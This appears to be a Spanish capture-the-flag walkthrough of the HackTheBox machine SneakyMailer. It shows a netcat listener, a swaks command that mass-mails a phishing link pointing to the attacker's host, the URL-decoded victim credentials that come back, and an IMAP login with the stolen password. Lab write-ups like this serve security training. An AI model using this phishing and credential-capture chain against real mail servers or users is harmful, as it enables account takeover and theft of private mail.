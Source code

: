 ## Evaluacion de vulnerabilidades {-}

### Swaksear la lista de email {-}

Es comun que en algunos servicios mail, nos podemos conectar al servidor y enviar email con un correo que no existe bajo el servidor indicado. 
Se puede hacer con la herramienta **swaks**. Aqui lo hacemos por el puerto **25**

```bash
nc -nlvp 80
```

```bash
swaks --to $(cat email.txt | tr '\n' ',') --from "s4vitar@sneakymailer.htb" \
--header "Subject: EEEEEEEE" --body "OH DIOS MIO ES DIAMOND JACKSON -> http://10.10.14.20/diamondjackson.jpg" \
--server 10.10.10.197
```

Ya vemos que podemos enviar el mail y que ademas alguien a pinchado el enlace. Ademas como utilizamos **nc** y no **python**
podemos ver la data enviada en raw. En la data vemos que podemos ver el usuario, el email y su password en formato url encode.

```bash
php --interactive

> print urldecode()"firstName=Paul&lastName=Byrd&email=paulbyrd%40sneakymailer.htb&password=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt&rpassword=%5E%28%23J%40SkFv2%5B%25KhIxKk%28Ju%60hqcHl%3C%3AHt"
```

Ya vemos la contraseña del usuario en texto claro.

Intentamos conectar por **SSH** y **FTP** pero nada

### Conectar por el IMAP con NC {-}

1. Logear por IMAP con NC

    ```bash
    nc 10.10.10.197 143

    A1 login paulbyrd ^(#J@SkFv2[%KhIxKk(Ju`hqcHl<:Ht
    #Output
    A1 OK LOGIN Ok.
    ```

1. Listar el contenido

    ```bash
    A2 LIST "" "*"
    ```
    
1. Seleccionar INBOX

    ```bash
    A3 SELECT "INBOX"
    ```
